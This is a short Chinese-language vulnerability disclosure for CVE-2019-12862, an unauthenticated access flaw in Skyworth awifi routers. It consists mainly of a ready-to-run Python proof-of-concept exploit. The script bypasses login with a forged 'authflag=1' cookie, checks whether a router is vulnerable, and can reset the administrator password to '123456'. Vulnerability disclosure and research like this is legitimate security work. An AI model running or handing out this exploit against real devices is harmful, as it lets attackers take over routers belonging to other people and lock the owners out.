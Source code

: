 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|天翼创维awifi路由器存在多处未授权访问漏洞|2019-06-01|H4lo|[http://www.skyworth.com/](http://www.skyworth.com/)|[http://www.skyworth.com/](http://www.skyworth.com/)|Boa/0.94.14rc21|[CVE-2019-12862](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12862)|

### POC实现代码如下：  

``` python
#coding: utf-8
#__author__: H4lo
import requests
import sys


payload = "authflag=1"
UA = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36"
headers = {
    "User-Agent": UA,
    "Cookie": payload
}

def exp(ip):
    info = """1. Login with no password\n2. Change administrator's password\n"""
    print info
    op = int(raw_input("Enter the options:"))
    if op == 1:
        url = "http://" + str(ip)+"/home.htm"
        try:
            res = requests.get(url,headers=headers,timeout=5)
            if "title.htm" in res.text:
                print "[+] The router is vulnerable"
            else:
                print "[-] The router is not vulnerable"
        except Exception as e:
            print str(e)
            
    elif(op == 2):
        url = "http://" + str(ip) + "/boafrm/formAwifiSwitchSetup"
        data = {
            "olduserpass":"1",
            "newpass":"123456",
            "confirmnewpass":"123456",
            "submit-url":"/password.htm"
        }
        try:
            res = requests.post(url=url,headers=headers,data=data,timeout=5)
            if "restartNow" in res.text:
                print "[+] Password had be changed to 123456"
            else:
                print "[-] Some error!"
        except Exception as e:
            print str(e)
            
    else:
        print "error options!"
if __name__ == '__main__':
    ip = sys.argv[1]
    exp(ip)
```


